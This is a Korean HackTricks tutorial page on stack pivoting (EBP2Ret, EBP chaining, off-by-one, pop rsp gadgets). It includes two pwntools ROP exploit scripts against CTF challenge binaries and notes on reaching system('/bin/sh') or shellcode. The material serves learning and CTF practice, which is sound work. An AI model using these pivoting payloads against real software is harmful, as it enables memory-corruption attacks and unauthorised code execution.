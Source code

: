 # 스택 피벗팅 - EBP2Ret - EBP 체이닝

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅이 될 때까지 AWS 해킹을 배우세요**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하길 원한다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **깃허브 저장소에 제출하세요.**

</details>

## 기본 정보

이 기술은 **베이스 포인터 (EBP)**를 조작하여 EBP 레지스터와 `leave; ret` 명령어 시퀀스를 신중하게 사용하여 여러 함수의 실행을 연결하는 능력을 악용합니다.

기억을 되살리자면, **`leave`**는 기본적으로 다음을 의미합니다:
```
movl               %ebp, %esp
popl               %ebp
ret
```
### EBP2Ret

이 기술은 **EBP 레지스터를 변경할 수 있지만 EIP 레지스터를 직접적으로 변경할 방법이 없을 때 특히 유용**합니다. 함수가 실행을 마치면서 발생하는 동작을 활용합니다.

`fvuln`의 실행 중에 스택에 가짜 EBP를 삽입하여 해당 위치가 쉘코드 주소가 있는 메모리 영역을 가리키도록 만들면(4바이트를 `pop` 작업을 고려하여 더한 상태), 간접적으로 EIP를 제어할 수 있습니다. `fvuln`이 반환될 때 ESP는 이 조작된 위치로 설정되며, 이후의 `pop` 작업은 ESP를 4만큼 감소시켜 **사용자가 설정한 주소를 가리키도록 만듭니다.**\
여기서 **알아야 할 주소가 2개** 있음을 주목하세요: ESP가 이동할 위치 및 ESP가 가리키는 주소를 써야 하는 위치.

#### Exploit 구성

먼저 **임의의 데이터/주소를 쓸 수 있는 주소를 알아야** 합니다. ESP는 여기를 가리키고 **첫 번째 `ret`를 실행**할 것입니다.

그런 다음, **임의의 코드를 실행할** `ret`에서 사용되는 주소를 알아야 합니다. 다음을 사용할 수 있습니다:

* 유효한 [**ONE\_GADGET**](https://github.com/david942j/one\_gadget) 주소.
* **`system()`** 주소 뒤에 **4바이트의 쓰레기 바이트**와 `"/bin/sh"` 주소(x86 비트).
* **`jump esp;`** 가젯([**ret2esp**](ret2esp-ret2reg.md)) 주소 뒤에 실행할 쉘코드.
* 일부 [**ROP**](rop-return-oriented-programing.md) 체인

제어 가능한 메모리의 해당 부분에 이러한 주소들 앞에는 **`4`바이트**가 있어야 합니다. 이 4바이트를 악용하여 **두 번째 가짜 EBP를 설정하고 실행을 계속 제어**할 수 있습니다.

#### Off-By-One Exploit

이 기술의 특정 변형인 "Off-By-One Exploit"이라고 알려진 것이 있습니다. 이는 **EBP의 가장 낮은 유효 바이트만 수정할 수 있는 경우** 사용됩니다. 이 경우, **`ret`로 이동할 주소를 저장하는 메모리 위치**는 EBP와 처음 세 바이트를 공유해야 하므로 더 제약 조건으로 유사한 조작이 가능합니다.

### **EBP Chaining**

따라서 스택의 `EBP` 항목에 제어 가능한 주소를 넣고 `EIP`에 `leave; ret` 주소를 넣으면 **`ESP`를 스택에서 제어 가능한 `EBP` 주소로 이동**할 수 있습니다.

이제 **`ESP`**가 원하는 주소를 가리키고 실행할 다음 명령은 `RET`입니다. 이를 악용하기 위해 제어 가능한 ESP 위치에 다음을 놓을 수 있습니다:

* **`&(다음 가짜 EBP)`** -> `leave` 명령의 `pop ebp`로 새로운 EBP를 로드합니다.
* **`system()`** -> `ret`에 의해 호출됩니다.
* **`&(leave;ret)`** -> 시스템이 종료된 후 호출되며, ESP를 가짜 EBP로 이동시키고 다시 시작합니다.
* **`&("/bin/sh")`**-> `system`의 매개변수

이 방법을 사용하면 프로그램의 흐름을 제어하기 위해 여러 가짜 EBP를 연결할 수 있습니다.

솔직히 말해서, 이것은 [ret2lib](ret2lib/)와 유사하지만 명백한 이점은 없지만 일부 특수한 경우에 흥미로울 수 있습니다.

또한 여기에는 이 기술을 사용하여 **우승 함수를 호출하는 스택 누출**을 수행하는 [**도전 과제 예제**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave)가 있습니다. 이 페이지의 최종 페이로드는 다음과 같습니다:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
0x0,               # rbp (could be the address of anoter fake RBP)
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,
elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
buffer,         # Load leak address in RBP
LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
## EBP는 쓸모가 없다

[**이 게시물에서 설명한대로**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), 바이너리가 일부 최적화로 컴파일된 경우, **EBP는 ESP를 제어하지 못하므로**, EBP를 제어하여 작동하는 어떤 악용도 실제로 효과가 없어 실패할 것입니다.\
이는 바이너리가 최적화되었을 때 **프롤로그와 에필로그가 변경**되기 때문입니다.

* **최적화되지 않음:**
```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```
* **최적화됨:**
```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```
## RSP를 제어하는 다른 방법

### **`pop rsp`** 가젯

[**이 페이지**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp)에서 이 기술을 사용한 예제를 찾을 수 있습니다. 이 도전 과제에서는 2개의 특정 인수를 사용하여 함수를 호출해야 했으며 **`pop rsp` 가젯**이 필요했으며 **스택에서의 누출**이 있었습니다:
```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
0,                 # r13
0,                 # r14
0,                 # r15
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,               # r15
elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
POP_CHAIN,
buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```
### xchg \<rag>, rsp 가젯
```
pop <reg>                <=== return pointer
<reg value>
xchg <rag>, rsp
```
## 참고 자료

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

<details>

<summary><strong>제로부터 AWS 해킹을 전문가로 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
